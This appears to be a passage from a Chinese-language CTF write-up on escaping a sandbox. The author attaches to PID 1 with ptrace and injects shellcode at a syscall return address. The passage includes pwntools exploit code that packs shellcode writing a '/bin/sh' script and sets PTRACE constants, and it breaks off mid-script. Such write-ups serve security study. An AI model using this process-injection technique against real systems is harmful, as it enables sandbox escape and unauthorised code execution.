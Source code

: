 通过`/proc/<pid>/status`可以发现, 1, 15进程都处于内核的睡眠状态.
并且start.sh在等待15sleep进程的返回, 而15进程则是永久睡眠

那么我们就可以通过attach 1进程, 并且在其系统调用的返回地址写上我们的shellcode代码, 就可以获得无沙箱的shellcode执行(ptrace的attach可以无视子进程的代码段只可写的权限)


# 利用过程

## 大规模shellcode编写方法
至于exp, 编写时还有一些有意思的点.因为这次执行的shellcode规模较大, 而毕竟ptrace的调用并不常用, 如果手写shellcode, 那么会大大增加工作量

我首先尝试使用本地手写c代码, 然后编译时使用`-S`选项来让gcc帮我编译出汇编代码, 但是这样也有一些问题, 比如正常情况下ptrace属于c库函数, 所以必然会链接到c库执行.但是很明显远程不一定有ptrace给你使用, 就算有, 偏移等等也可能出现差错.

于是我又尝试了加上了`-static`静态编译, 但是静态编译后整个文件太大了, 还是需要手动调整, 效率依然比较低

最后我还是从本文开头的文章中的exp找到了解决办法(虽然我不是很喜欢这种解决办法)
```python
PTRACE_POKEDATA = 5

power_shellcode +=f"mov r12, {code[i]}"
power_shellcode +=shellcraft.ptrace(PTRACE_POKEDATA, target_pid, "r13", "r12")
power_shellcode +=f"add r13, 8"
```
即通过shellcraft构造, 并且我没想到的是参数居然还可以指定寄存器, 其实比我想象的还是好用
(需要手写的shellcode还可以简单的通过加的方式加上)

## exp
```python
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    log_level="debug",
)

final_shellcode  = shellcraft.open("file", 513)
final_shellcode += shellcraft.write(3, "#!/bin/sh\n/bin/sh\n", 18)
final_shellcode += shellcraft.close(3)
final_shellcode = asm(final_shellcode)
final_shellcode += b'\x90'*(8 - (len(final_shellcode) % 8))

code = []
print(hex(len(final_shellcode)))
for i in range(0, len(final_shellcode), 8):
    long = 0
    tmp = final_shellcode[i:i+8]
    for j in range(0, 8, 1):
        long |= tmp[j] << (8*j)
    code.append(long)
print(code)

target_pid = 38621

PTRACE_ATTACH = 16
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_POKEDATA = 5
PTRACE_CONT = 7
PTRACE_DETACH = 17
rip_offset = 128
rcx_offset = 88
```